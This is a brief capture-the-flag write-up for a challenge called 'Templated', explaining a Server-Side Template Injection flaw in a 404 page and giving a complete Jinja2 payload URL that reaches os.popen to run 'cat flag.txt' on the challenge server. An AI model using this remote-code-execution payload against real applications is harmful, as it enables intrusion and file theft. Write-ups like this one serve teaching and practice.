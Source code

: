 # Templated


* Simple challenge that focuses on Server-Side Template Injection (SSTI). When trying to access a directory, the page responds with a 404 but also renders the url text on the screen

![STTI Demo](pic1.png "STTI")


* RCE (Reflection-based): use a python object to reach the import method by calling superclasses (sort-of) and then just read the flag

~~~python3
http://138.68.191.25:30123/%7B%7Brequest.application.__globals__.__builtins__.__import__('os').popen('cat%20flag.txt').read()%7D%7D
~~~